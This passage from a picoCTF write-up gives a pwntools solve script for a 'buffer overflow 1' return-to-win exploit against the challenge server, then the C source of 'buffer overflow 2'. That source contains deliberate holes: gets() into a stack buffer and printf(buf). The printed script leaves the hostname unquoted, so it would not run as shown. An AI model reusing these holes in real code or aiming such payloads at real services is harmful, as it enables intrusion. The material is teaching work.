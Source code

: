 As we don't have PIE, we can simply use the `win` function address directly, which is `0x080491f6` (you can get it by using the command `disas win` on gdb or putting the program inside a decompiler like Ghidra)

Putting all of this together, here is my solve using pwntools:
```python
context(arch = 'i386', os = 'linux')
r = remote(saturn.picoctf.net, 64507)
payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaa'
payload += int.to_bytes(0x080491f6, 4, 'little')
r.sendline(payload)
r.recvline()
r.recvline()
r.interactive()
```

## buffer overflow 2

Here is the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```